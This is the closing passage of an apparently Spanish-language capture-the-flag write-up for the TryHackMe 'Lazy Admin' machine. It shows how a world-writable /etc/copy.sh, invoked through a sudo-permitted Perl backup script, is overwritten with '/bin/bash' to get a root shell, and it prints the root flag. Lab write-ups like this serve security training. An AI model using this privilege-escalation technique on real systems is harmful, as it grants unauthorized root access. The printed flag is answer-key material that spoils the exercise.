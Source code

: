 Al revisar los permisos de este tercer fichero, se puede ver que el grupo de permisos perteneciente al resto de usuarios que no son ni propietario, ni el grupo propietario, dispone de todos los permisos (lectura, escritura y ejecución).

```shell
$ ls -lrt /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

Por tanto, se va a explotar este error de configuración de la siguiente manera:

- Se modifica el fichero para el se disponen permiso para que ejecute a una shell de bash.

```shell
echo /bin/bash > /etc/copy.sh
```

- Se ejecuta el script para el que se disponen permisos de ejecución con sudo, que a su vez ejecutará el script modificado, dando lugar a la generación de una shell con permisos de root.

```shell
$ sudo perl /home/itguy/backup.pl
```

```shell
id
uid=0(root) gid=0(root) groups=0(root)
```

Para terminar, ya sólo queda obtener la flag de root. (THM{6637f41d0177b6f37cb20d775124699f})

```shell
cat /root/root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```

![LazyAdmin7][LazyAdmin7]


Y hasta aquí mi resolución de la máquina Lazy Admin. Como siempre digo en los post, seguramente existan otras formas de acceso o de escalada de privilegios.

Espero que os haya gustado, y recordad las redes sociales si queréis contactar conmigo.

Salu2!!!

<a href="#top">Volver arriba</a>


[LazyAdmin1]: https://i.imgur.com/cq4KrWp.png
[LazyAdmin2]: https://i.imgur.com/CZOiWWa.png
[LazyAdmin3]: https://i.imgur.com/jk2vOSg.png
[LazyAdmin4]: https://i.imgur.com/SMft1pL.png
[LazyAdmin5]: https://i.imgur.com/PPUfCS3.png
[LazyAdmin6]: https://i.imgur.com/FwBN7pG.png
[LazyAdmin7]: https://i.imgur.com/WQYCv4t.png